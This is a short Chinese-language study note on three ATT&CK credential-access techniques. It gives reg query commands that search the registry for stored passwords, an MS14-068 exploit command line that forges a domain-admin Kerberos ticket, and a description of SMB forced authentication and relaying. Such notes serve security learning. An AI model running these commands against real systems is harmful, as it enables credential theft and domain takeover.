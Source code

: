 ## Credentials in Registry-T1214

可以通过命令

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

分别查看本地机器和当前用户的含有password的项

## Exploitation for Credential Access-T1212

攻击者利用操作系统漏洞，或者是身份验证机制的错误来进行攻击。偏思路型，原文中举了几个例子，其中一个是MS14-068，直接使用利用工具可以申请具有域管理员权限的票据

```
MS14-068.exe -u normal@test.com -s S-1-5-21-1406004368-3818689962-3591297438-1105 -d 192.168.3.100 -p Server1
```

![1574318277629](Credential%20Access.assets/1574318277629.png)

## Forced Authentication-T1187

当Windows系统尝试连接到SMB资源时，它将自动尝试进行身份验证，并将当前用户的凭据信息发送到远程系统。

当SMB被阻止或者失败时，WebDAV会做为备用协议。WebDAV是HTTP的扩展，通常通过TCP端口80和443运行。

攻击者可以利用这种方式诱导受害者访问其他资源。

例：

通过页面（钓鱼邮件等）中嵌入的代码发起SMB请求，然后进行SMB中继操作，或者用于检索文件

![1574318337349](Credential%20Access.assets/1574318337349.png)
